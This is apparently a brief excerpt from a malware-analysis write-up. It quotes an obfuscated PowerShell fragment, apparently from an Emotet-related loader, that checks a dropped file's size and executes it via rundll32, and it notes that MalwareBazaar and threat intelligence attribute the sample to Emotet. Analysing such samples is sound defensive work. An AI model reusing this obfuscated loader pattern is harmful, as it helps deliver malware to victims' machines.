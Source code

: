 ```powershell
        $z10l = ('a92q');
        if ((&('get-item') $imd1yck)."length"  - ge 35698)  {
            &('rundll32') $imd1yck, ('control_rundll')."tostring"();
            $r65i = 'z09b';
            break;
            $k7_h = 'f12u'
        }
    } catch {}

}
$w54i = 'v95o'
```
# Determening Malware 
Simple google search point as to MalwareBazaar

![](/assets/images/2022-05-20-15-42-03.png)

If we check inteligence data we see it's probably related to Emotet Family
